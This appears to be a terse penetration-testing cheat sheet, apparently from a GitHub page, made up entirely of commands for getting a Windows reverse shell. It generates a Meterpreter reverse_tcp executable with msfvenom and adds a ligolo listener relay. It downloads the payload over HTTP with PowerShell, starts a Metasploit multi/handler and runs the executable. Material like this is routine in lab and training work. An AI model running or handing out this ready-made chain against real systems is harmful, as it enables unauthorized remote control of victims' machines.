 msfvenom
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.219.254 LPORT=3323 -f exe -o pe.exe
```

ligolo proxy add
```
listener_add --addr 0.0.0.0:3323 --to 0.0.0.0:3323
```

download payload
```
iwr http://172.16.219.254:1235/pe.exe -outfile pe.exe
```

start multi/handler
```
msfconsole -q -x 'use exploit/multi/handler;set LHOST 0.0.0.0;set LPORT 3323;set payload windows/x64/meterpreter/reverse_tcp;run'
```

start revshell
```
.\pe.exe
```